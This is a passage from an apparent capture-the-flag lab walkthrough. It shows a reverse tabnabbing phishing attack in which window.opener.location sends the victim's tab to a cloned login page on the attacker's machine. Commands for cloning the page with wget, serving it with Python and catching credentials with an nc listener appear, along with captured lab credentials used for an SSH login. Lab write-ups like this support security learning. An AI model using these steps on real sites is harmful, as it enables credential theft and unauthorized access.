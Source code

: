 
- note that `10.0.2.8` should be replaced by the attacker ip address and you should use any unoccupied port you want
- and window.opener.location is the JavaScript code that attempts to change the legit website tab to the one hosted on our machine. 
- Hence we will also have a perfect copy of the target login page which we will rename `index.html` in the same folder
  - For this you can just `wget http://10.0.2.7/index.php ` and rename with `mv index.php index.html`
 
## Server start
- Start a simple python server on an unoccupied port
  ```
  ┌──(kali㉿kali)-[~/Documents/fake_website]
  └─$ python3 -m http.server 8081
  Serving HTTP on 0.0.0.0 port 8081 (http://0.0.0.0:8081/) ...
  ```
- Set up a listener with `nc -lnvp 8082`. The port mentioned should be the same used in
`window.opener.location = "http://10.0.2.8:8082/index.html"`

## Attack
- Provide in the victim form the link pointing to your fake page in this fashion: `http://yourIpAddress:serverPort/submit.html`
  
   ![submit link](images/06.png)

- inspect your listener and after a few seconds
  ```
  ┌──(kali㉿kali)-[~]
  └─$ nc -lnvp 8082
  listening on [any] 8082 ...
  connect to [10.0.2.8] from (UNKNOWN) [10.0.2.7] 33238
  POST /index.html HTTP/1.1
  Host: 10.0.2.8:8082
  User-Agent: python-requests/2.22.0
  Accept-Encoding: gzip, deflate
  Accept: */*
  Connection: keep-alive
  Content-Length: 45
  Content-Type: application/x-www-form-urlencoded
  username=daniel&password=C%40ughtm3napping123
  ```
- mind that the password is url encoded and you can easily decode in burpsuite or online.
- from now on we can get access to the target machine through ssh or directly from the vulnerable machine interface
- I choose to proceed with ssh. `ssh daniel@10.0.2.7 -p 22 `
- Enter the decoded password ( which is C@ughtm3napping123 if not already done)
```
daniel@10.0.2.7's password: 
Welcome to Ubuntu 20.04.3 LTS (GNU/Linux 5.4.0-89-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Wed Mar 20 06:37:16 UTC 2024

  System load:  0.0                Processes:               137
  Usage of /:   46.0% of 18.57GB   Users logged in:         0
  Memory usage: 15%                IPv4 address for enp0s3: 10.0.2.7
  Swap usage:   0%
```